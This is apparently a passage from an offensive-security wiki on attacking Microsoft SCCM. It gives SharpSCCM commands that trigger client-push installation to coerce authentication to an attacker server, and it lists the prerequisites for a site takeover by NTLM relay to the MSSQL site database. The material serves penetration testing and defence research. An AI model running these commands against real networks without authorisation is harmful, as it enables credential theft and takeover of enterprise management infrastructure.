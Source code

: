 ##### Step 2: trigger Client-Push Installation

```PowerShell
# If admin access over Management Point (MP)
SharpSCCM.exe invoke client-push -t  --as-admin

# If not MP admin
SharpSCCM.exe invoke client-push -t 
```

##### Step 3: cleanup

If you run the above SharpSCCM command with the `--as-admin` parameter (since you have admin privileges over the MP), there's nothing to do. Otherwise, get in contact with the administrator of the SCCM system you just messed up and provide the name or IP of the attacker server you provided in the `-t ` parameter. This is the device name that will appear in SCCM.


### SCCM Site Takeover

> [!TIP]
> For more details about how these attacks work, refer to the article "[SCCM Site Takeover via Automatic Client Push Installation](https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1)" by [Chris Thompson](https://mobile.twitter.com/_mayyhem) for the database attack, and "[Site Takeover via SCCM’s AdminService API](https://posts.specterops.io/site-takeover-via-sccms-adminservice-api-d932e22b2bf)" by [Garrett Foster](https://twitter.com/garrfoster) for the HTTP one.

#### Relay to the MSSQL site database

> [!CAUTION]
> Some requirements are needed to perform the attack:
> 
> * automatic site assignment and automatic site-wide [client push installation](index#client-push-installation-1) are enabled
> * fallback to NTLM authentication is enabled (default)
> * the hotfix [KB15599094](https://learn.microsoft.com/fr-fr/mem/configmgr/hotfix/2207/15599094) is not installed (it prevents the client push installation account to perform an NTLM connection to a client)
> * PKI certificates are not required for client authentication (default)
> * either:
> 
>   * MSSQL is reachable on the site database server
> 
> OR
> 
>   * SMB is reachable and SMB signing isn’t required on the site database server
>   * knowing the three-character site code for the SCCM site is required (step 3 below)
>   * knowing the NetBIOS name, FQDN, or IP address of a site management point is required
>   * knowing the NetBIOS name, FQDN, or IP address of the site database server is required
> 
> The first four requirements above apply to the [client push installation coercion technique](index#client-push-installation). But without them, a regular coercion technique could still be used (petitpotam, printerbug, etc.).
